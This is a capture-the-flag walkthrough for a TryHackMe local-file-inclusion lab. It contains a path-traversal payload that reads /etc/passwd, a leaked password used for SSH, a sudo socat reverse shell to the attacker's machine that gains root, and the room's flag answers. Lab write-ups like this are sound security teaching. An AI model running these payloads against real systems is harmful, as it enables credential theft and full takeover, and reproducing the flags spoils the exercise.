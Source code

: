 # LFI Walkthrough
### Link
- https://tryhackme.com/room/inclusion
---
### Recon
```
nmap -sC -sC -p- [IP]
```
**Namp scan result**
```
Starting Nmap 7.91 ( https://nmap.org ) at 2022-02-23 06:53 EST
Nmap scan report for 10.10.79.52
Host is up (0.094s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Let's check the link http://[IP]. We access to a blog. (looks like a standard blog, build recently with few contents). If we click on any link, we arrive to an article but the most interesting part is the URL
```
http://10.10.79.52/article?name=hacking
```
This URL gives us an interesting information. **name** is a parameter and every time we click on the link to access this page, a call is done on this paramter.That indicates us we can move forward with File Inclusion attack.

Let's try to check **/etc/passwd/**
```
http://[IP]/article?name=/etc/passwd/
```
We arrive to an error page. We need to navigate to the file
```
http://[IP]/article?name=../../../../../../etc/passwd
```
Result
```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin pollinate:x:109:1::/var/cache/pollinate:/bin/false falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash #falconfeast:rootpassword sshd:x:110:65534::/run/sshd:/usr/sbin/nologin mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false 
```
We found the user **falconfeast** and it password **rootpassword**

---
### Exploitation

Let's SSH the server
```
falconfeast@10.10.79.52's password:
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-74-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Feb 23 17:35:52 IST 2022

  System load:  0.08              Processes:           86
  Usage of /:   34.8% of 9.78GB   Users logged in:     0
  Memory usage: 32%               IP address for eth0: 10.10.79.52
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

3 packages can be updated.
3 updates are security updates.


Last login: Thu Jan 23 18:41:39 2020 from 192.168.1.107
falconfeast@inclusion:~$ ls -l
total 8
drwxr-xr-x 2 root        root        4096 Jan 21  2020 articles
-rw-r--r-- 1 falconfeast falconfeast   21 Jan 22  2020 user.txt
falconfeast@inclusion:~$ cat user.txt
60989655118397345799
```
**Question**
#### user flag?
**Answer** 
#### 60989655118397345799
---
### Privilege Escalation

Let's check **sudo -l** with the current user
```
falconfeast@inclusion:~$ sudo -l
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```
Check [gtfobins](https://gtfobins.github.io/gtfobins/socat/).

I tried the first pattern for [Shell](https://gtfobins.github.io/gtfobins/socat/#shell) but didn't work. 

- First: on the local machine, start the listener
```
socat file:`tty`,raw,echo=0 tcp-listen:4646
```
- Second: on the targeted machine, execute these command [ReverseShell](https://gtfobins.github.io/gtfobins/socat/#reverse-shell)
```
falconfeast@inclusion:~$ RHOST=[IP local machine]
falconfeast@inclusion:~$ RPORT=4646
falconfeast@inclusion:~$ sudo socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane
```
- Third: Local machine listener
```
sudo socat file:`tty`,raw,echo=0 tcp-listen:4646
Password:
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cd /root
# ls -l
total 4
-rw-r--r-- 1 root root 21 Jan 22  2020 root.txt
# cat root.txt
42964104845495153909
```
**Question**
#### root flag?
**Answer** 
#### 42964104845495153909